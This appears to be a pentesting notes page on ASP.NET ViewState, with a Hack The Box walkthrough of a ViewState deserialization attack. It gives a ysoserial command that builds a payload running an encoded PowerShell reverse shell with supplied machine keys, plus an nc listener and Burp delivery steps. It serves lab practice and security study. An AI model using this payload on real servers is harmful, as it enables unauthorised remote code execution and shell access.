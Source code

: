 # ViewState

**ViewState** is the method that the ASP.NET framework uses by default to p**reserve page and control values between web pages**. When the HTML for the page is rendered, the current state of the page and values that need to be retained during postback are serialized into base64-encoded strings and output in the ViewState hidden field or fields.

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter" %}

{% embed url="https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/" %}

### Hack the box - Viewstate attack&#x20;

{% code overflow="wrap" %}
```bash
# Assume that you have already idenfied the machine key information. 

<machineKey validationKey="[String]"  decryptionKey="[String]" validation="[SHA1 | MD5 | 3DES | AES | HMACSHA256 | HMACSHA384 | HMACSHA512 | alg:algorithm_name]"  decryption="[Auto | DES | 3DES | AES | alg:algorithm_name]" />

# Create a malicious viewstate payload
ysoserial.exe -p ViewState  -g TextFormattingRunProperties -c "powershell -e <your encoded reverse shell>" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"
```
{% endcode %}

### Send it via BURP

Listener

```bash
kali> rlwrap nc -nlvp 1234 
```

Copy the output of ysoserial to the \_VIEWSTATE parameter value, and click on 'Send'.&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

